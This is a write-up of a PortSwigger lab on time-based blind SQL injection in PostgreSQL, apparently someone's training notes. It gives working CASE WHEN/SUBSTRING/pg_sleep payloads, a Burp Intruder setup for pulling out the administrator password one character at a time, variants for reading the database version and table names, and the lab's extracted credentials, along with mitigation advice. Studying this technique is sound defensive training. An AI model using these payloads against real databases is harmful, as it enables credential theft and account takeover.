



# Lab 15: Blind SQL Injection with Time Delays and Information Retrieval

## Category
SQL Injection - Blind SQLi

## Vulnerability Summary
This lab takes blind SQL injection to the next level — not only do we detect the vulnerability using time delays, but we also **extract actual data** from the database. Using Burp Intruder, I automated the process of extracting the administrator's password character-by-character.

## Attack Methodology

### Step 1: Understanding the Goal
The lab requires extracting the administrator's password from the `users` table. Since this is blind SQLi, I can't see query results directly — I need to infer each character based on response times.

### Step 2: Building the Base Payload
The core payload uses PostgreSQL's `SUBSTRING()` function with conditional time delays:

```sql
' || (SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='a') 
THEN pg_sleep(10) 
ELSE pg_sleep(0) 
END FROM users)--
```

This payload:
- Checks if the first character of administrator's password is 'a'
- If TRUE → 10 second delay
- If FALSE → immediate response

### Step 3: Setting Up Burp Intruder

**Payload Configuration:**
- **Attack Type:** Sniper
- **Payload Position:** Inside the SUBSTRING comparison
- **Payload Type:** Simple list (a-z, 0-9)

**Resource Pool Settings:**
Critical step — set **Maximum concurrent requests to 1** to ensure accurate timing:



Without this, parallel requests would mess up the timing analysis.

### Step 4: Running the Intruder Attack

Launched the attack and monitored the **Response received** column:



Most requests returned in ~200-400ms, but when the character matched — **BOOM** — 10,000+ ms (10 seconds).

**First character found:** `u` (10234ms response time)

### Step 5: Extracting the Full Password

Repeated the process for each character position:
- Position 1: `u`
- Position 2: `s`
- Position 3: `x`
- Position 4: `h`
- Position 5: `m`
- ...and so on

**Final extracted password:** `usxhm5p4cbyzglug4z24`



### Step 6: Login and Solve

Logged in as administrator with the extracted password — **Lab solved!** 🎉

## Technical Root Cause

### Why This Works

The application is vulnerable to **boolean-based blind SQL injection** with time-based confirmation:

```sql
-- Original query (simplified)
SELECT * FROM sessions WHERE tracking_id = '[USER_INPUT]'

-- Injected query
SELECT * FROM sessions WHERE tracking_id = '' || 
  (SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,N,1)='X') 
  THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)--
```

### The SUBSTRING() Technique

```sql
SUBSTRING(password, position, length)
```

- **position:** Which character to extract (1, 2, 3, etc.)
- **length:** How many characters (1 for single char)

By iterating through positions and testing each character (a-z, 0-9), we can extract the entire password.

### Why Single-Threaded Requests Matter

Running multiple concurrent requests would:
- Cause network congestion
- Make timing unreliable
- Lead to false positives/negatives

Setting **concurrent requests = 1** ensures each response time is accurate.

## Impact

- **Full Credential Theft:** Attacker extracts any user's password
- **Account Takeover:** Login as any user, including administrators
- **Data Exfiltration:** Same technique can extract emails, credit cards, etc.
- **Undetectable:** No errors or unusual output visible to users
- **Automatable:** Burp Intruder makes this a point-and-click attack

## Proof of Concept

### Base Payload Template
```sql
' || (SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,{position},1)='{char}') 
THEN pg_sleep(10) 
ELSE pg_sleep(0) 
END FROM users)--
```

### Burp Intruder Setup

**Payload position marker:**
```
TrackingId=...SUBSTRING(password,§1§,1)='§a§'...
```

**Payloads:**
- Position 1: `1` (fixed)
- Position 2: `a`, `b`, `c`, ... `z`, `0`, `1`, ... `9`

**Response time analysis:**
- Normal: 200-500ms → Character doesn't match
- Delayed: 10,000+ms → **Character found!**

### Extracting Other Data

**Extract database version:**
```sql
' || (SELECT CASE WHEN (SUBSTRING((SELECT version()),1,1)='P') 
THEN pg_sleep(10) ELSE pg_sleep(0) END)--
```

**Extract table names:**
```sql
' || (SELECT CASE WHEN (SUBSTRING((SELECT table_name FROM information_schema.tables LIMIT 1),1,1)='u') 
THEN pg_sleep(10) ELSE pg_sleep(0) END)--
```

## My Key Takeaways

1. **Blind SQLi is Slow but Powerful:** This took 30+ minutes to extract manually. Imagine doing this for a 64-character password 😅

2. **Burp Intruder is a Game Changer:** What would take hours manually becomes a 5-minute automated attack.

3. **Resource Pool Settings Matter:** Forgot to set concurrent requests to 1 and wasted 10 minutes wondering why timing was inconsistent.

4. **The Payload Structure is Universal:** Once you understand the `CASE WHEN + SUBSTRING + pg_sleep()` pattern, you can adapt it to any blind SQLi scenario.

5. **PostgreSQL-Specific Syntax:**
   ```
   SUBSTRING(string, start, length)  -- Extract characters
   pg_sleep(seconds)                 -- Time delay
   ||                                -- String concatenation
   CASE WHEN ... THEN ... ELSE ... END  -- Conditional logic
   ```

6. **Next Level:** This lab showed me that blind SQLi isn't just about detection — you can **extract entire databases** this way.

## Mitigation

### 1. Parameterized Queries (Most Effective)
```java
// ❌ Bad - String concatenation
String query = "SELECT * FROM users WHERE tracking_id = '" + trackingId + "'";

// ✅ Good - Parameterized
PreparedStatement stmt = conn.prepareStatement(
    "SELECT * FROM users WHERE tracking_id = ?");
stmt.setString(1, trackingId);
```

### 2. Input Validation
- Validate tracking IDs against expected format (alphanumeric only)
- Reject input containing SQL keywords, quotes, or special characters

### 3. Rate Limiting
- Limit requests per IP to slow down automated attacks
- Burp Intruder becomes impractical with strict rate limits

### 4. WAF Rules
- Block requests containing `pg_sleep`, `SUBSTRING`, `CASE WHEN`
- Detect and block Intruder-style attack patterns

### 5. Least Privilege
- Database user shouldn't have access to `users` table in web context
- Restrict access to system functions like `pg_sleep()`

## References
- [PortSwigger Blind SQLi with Information Retrieval](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)
- [Burp Intruder Documentation](https://portswigger.net/burp/documentation/desktop/tools/intruder)
- [SQL Injection Exfiltration Techniques - OWASP](https://owasp.org/www-community/attacks/SQL_Injection)

---

**Extracted Credentials:**
```
Username: administrator
Password: usxhm5p4cbyzglug4z24
```

---
*Lab completed on: 2026-03-22*
